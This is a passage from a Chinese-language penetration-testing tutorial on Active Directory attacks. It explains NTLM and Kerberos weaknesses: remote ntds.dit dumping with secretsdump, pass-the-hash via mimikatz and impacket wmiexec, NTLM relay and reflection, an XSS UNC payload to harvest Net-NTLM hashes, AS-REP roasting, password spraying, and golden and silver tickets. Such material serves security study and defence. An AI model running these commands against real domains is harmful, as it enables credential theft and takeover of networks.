利用 impacket 下的 secretsdump 模块也可以实现远程盗取 ntds 内容。同时该工具支持 hash 传递攻击。

```bash
python secretsdump -hashes :NThash -just-dc domain/dc\$@ipaddress
```

### 3、ntds 文件解密

破解 ntds 文件的方法有很多软件也有很多包括 Impacket-secretsdump、Quarks PwDump 等。

这里推荐使用 NtdsAudit 工具。[**github 下载地址**](https://github.com/Dionach/NtdsAudit/releases)

该工具可以十分高效的破解 ntds 文件并将全部域用户信息导出方便查找域用户状态。

将 ntds.dit 文件和 SYSTEM 文件放在同一目录下执行命令

```bash
NtdsAudit.exe "ntds.dit" -s "SYSTEM" -p pwdump.txt --users-csv users.csv
```

执行完毕后会生成两个文件 pwdump.txt 和 users.csv 其中 pwdump.txt 为用户 hash 文件包含用户名及 hashusers.csv 文件为域用户的详细信息包括账户是否过期是否为管理员上次密码修改时间等。


**需要注意的是该工具只能在 win10server16 未测试上执行。**

使用不同工具破解 ntds 文件时需要注意最好使用与导出 ntds 文件域控相同操作系统版本的系统进行破解否则可能会出现失败的情况。

### 4、其他方式

除了以上基础方法外，还有其他许多方法组合，比如使用 Net NTLM hash v1，使用 wmic 配合其他方法，使用其他程序等等，这里就不过多展开了，有兴趣的同学可以自行研究。

## 四、NTLM 协议攻击思路

### 1、hash 传递

hash 传递攻击 pass the hash 简称 PTH。

由于 NTLM 验证过程中在 type 3 阶段计算 response 的时候客户端是使用用户的 hash 进行计算的而不是用户密码进行计算的。因此在模拟用户登录的时候是不需要用户明文密码的只需要用户 hash。

微软在 2014 年 5 月 13 日发布了针对 Pass The Hash 的更新补丁 kb2871997 标题为“Update to fix the Pass-The-Hash Vulnerability”, 而在一周后却把标题改成了“Update to improve credentials protection and management”。同时该补丁还能阻止 mimikatz 抓取明文密码。

严格意义上讲 hash 传递只是完成一个不需要输入密码的 NTLM 协议认证流程所以并不算是一个漏洞只能算是一个技巧。

**a、常用工具**

哈希传递作为一个比较常见的攻击方式对应的工具有很多。常见的有

**1.mimikatz**

```bash
privilege::debug
sekurlsa::pth /user:win10 /domain:test.local /ntlm:6a6293bc0c56d7b9731e2d5506065e4a
```


**2.impacket**

impacket 的模块中有 5 个都支持 hash 传递。

> psexec.py
> 
> smbexec.py
> 
> atexec.py
> 
> wmiexec.py
> 
> dcomexec.py

举例说明

```bash
python wmiexec.py -hash LMhash:NThash username@ipaddress
python wmiexec.py -hashes :NThash username@ipaddress
```

**3.msf**

```bash
use exploit/windows/smb/psexec_psh
```


**4.CobalStrike**


### 2、信息收集

在 NTLM 协议过程中在 type 2 返回 Challenge 的过程中同时返回了操作系统类型主机名 netbios 名等信息。那么如果向一台服务器发送 type 1 信息收集 type 2 的返回信息就可以获得目标服务器的很多信息。

由于 NTLM 是一个嵌入式的协议消息的传输依赖于使用上层协议所以可以利用**多种上层协议**嵌入 NTLM 协议发送请求来获取信息。最常见最经典就是 msf 中的 smb\_version 模块。在目标主机开放了 445 或者 139 的情况通过给服务器发送一个 type1 的请求然后解析 type2 的响应。就可以收集到一些信息。


除 msf 版外还有 python、c# 等版本。

> python 版 [https://github.com/amitn322/smb-version](https://github.com/amitn322/smb-version)
> 
> c# 版 [https://www.zcgonvh.com/post/CSharp\_smb\_version\_Detection.html](https://www.zcgonvh.com/post/CSharp_smb_version_Detection.html)


### 3、中间人攻击

NTLM relay 攻击即中间人攻击。由于 NTLM 协议是一个嵌入式的协议因此当 NTLM 的上层协议是 smb 的情况下 ntlm relay 就是 smb relay。那如果上层协议是 http 也可以叫做 http relay 但是都统称 ntlm relay。

**a、ntlm relay 的一般过程**

正常的 ntlm 认证 type 1type 2type 3 流程。


而中间人攻击则是在这个过程中作为中间人攻击者将来自客户端的包 (type 1) 转发给服务端将来自服务端的 challenge (type 2) 转发给客户端然后客户端计算完 response 之后再把 response (type 3) 转发给服务端服务端验证 rsponse 通过之后授予攻击者访问的权限。


**b、跨协议的 relay**

鉴于 NTLM 协议的特性也可以在一个协议里面提取 ntlm 认证信息放进另外一个协议里面实现跨协议的 relay。

**c、中继和反射 relay or reflet**

**什么是反射**

如果 Inventory Server 和 Target 是同一台机器攻击者拿到 Inventory Server 发来的请求之后发回给 Inventory Server 进行认证。这个就是**反射 reflect**。

**反射的应用**

在工作组环境里面工作组中的机器之间相互没有信任关系每台机器的账号密码只是保存在自己的 SAM 文件中此时将中继到其他机器就没有任何意义了。

最能体现其特点的就是 CVE-2018-8581。通过抓到管理员 hash 并将其反射回自己从而实现短暂的权限提升。

**d、NTLM 请求发起**

既然是中间人攻击那么关键问题就在于如何才能发起请求。发起请求的方法有很多但使用条件都较为苛刻就不过多赘述这里只介绍可行性最大的一种。

**XSS & Outlook**

利用 xss 构造

```bash
<script src="\\ipaddress\xss">
```

这种情况适用于 IE 和 edge 其他浏览器不允许从 http 协议跨到 file 协议。

如果使用 http 请求来发起认证在默认情况下需要手动输入用户信息进行验证除非该站点的域名位于企业内部网或存在于可信站点列表中。否则都会跳出认证框来让操作者再输入一次。

除非在安全设置中将“用户身份验证”选项中“登录”设置为自动使用当前用户名和密码登录才能拿到用户的 net-ntlm hash。

发送邮件是支持 html 的并且 outlook 中的图片加载路径可以是 UNC。同 XSS 将图片地址构造为攻击 payload。

```bash

```

当收件人打开 outlook 查看邮件的时候就可以收到 net-ntlm hash。

## 五、kerberos 协议攻击思路

### 1, pass the key

pass the key 简称 PTK 与 hash 传递类似都是由于认证过程中不需要明文密码因此可以直接使用用 hash 代替明文密码。

由于在进行认证的时候是用用户 hash 加密时间戳即使在使用密码进行登录的情况下也是先把密码加密成 hash 再进行认证。因此在只有用户 hash 没有明文密码的情况下也是可以进行认证的。不管是 rubeus 还是 impacket 里面的相关脚本都是支持直接使用 hash 进行认证。

### 2, pass the ticket

Kerbreos 除了第一步 AS-ERQ 是使用时间戳加密用户 hash 验证之外其他的步骤的验证都是通过票据这个票据 可以是 TGT 票据或者 TGS 票据。因为票据里面的内容主要是 sessionkey 和 ticket 使用服务 hash 加密的服务包括 krbtgt 拿到票据之后。就可以用这个票据来作为下阶段的验证了。

### 3、枚举爆破

**a、用户名枚举**

由于 AS-REP 返回的 cname 字段在用户名正确和不正确存在或不存在时回显结果不一样。

在用户名正确密码错误的时候回显结果为 KDC\_ERR\_PREAUTH\_FAILED 在用户名不存在时回显结果为 KDE\_ERR\_C\_PRINCIPAL\_UNKNOWN

通过这个比较就可以对 cname 的值进行用户名枚举。在域内没有域账号的情况下进行用户名枚举在有账号的情况的下通过 LDAP 查询就行。如果有域内机器的 system 权限那那台机器也是个域账户账户名是机器名 $。

使用 nmap 脚本 **krb5-enum-users** 可以枚举域内用户。

**b、密码爆破**

同用户名枚举在密码正确和不正确时 AS-REP 返回包返回结果不同这个时候就可以进行密码爆破。

**密码喷洒** Password Spraying 对密码进行喷洒式的攻击它属于自动化密码猜测的一种通常是为了避免帐户被锁定。因为针对同一个用户的连续密码猜测会导致帐户被锁定。所以只有对所有用户同时执行特定的密码登录尝试才能增加破解的概率消除帐户被锁定的概率。

### 4, AS-REP Roasting

对于域用户如果设置了选项 Do not require Kerberos preauthentication 不要求 Kerberos 预验证身份此时向域控制器的 88 端口发送 ASR-EQ 请求对收到的 ASR-EP 内容 (enc-part 底下的 ciper 因为这部分是使用用户 hash 加密 session-key 通过进行离线爆破就可以获得用户 hash) 重新组合能够拼接成“Kerberos 5 AS-REP etype 23”(18200) 的格式接下来可以使用 hashcat 对其破解最终获得该用户的明文口令。

### 5、黄金票据

在 AS\_REP 里面的 ticket 的 encpart 是使用 krbtgt 的 hash 进行加密的如果拥有 krbtgt 的 hash 就可以给自己签发任意用户的 TGT 票据这个票据也被称为黄金票据。

### 6、白银票据

在 TGS\_REP 里面的 ticket 的 encpart 是使用服务的 hash 进行加密的如果拥有服务的 hash 就可以给自己签发任意用户的 TGS 票据这个票据也被称为白银票据。

相较于黄金票据白银票据使用要访问服务的 hash 而不是 krbtgt 的 hash 由于生成的是 TGS 票据不需要跟域控打交道但是白银票票据只能访问特定服务。但是要注意的一点是伪造的白银票据没有带有有效 KDC 签名的 PAC。如果将目标主机配置为验证 KDC PAC 签名则银票将不起作用。
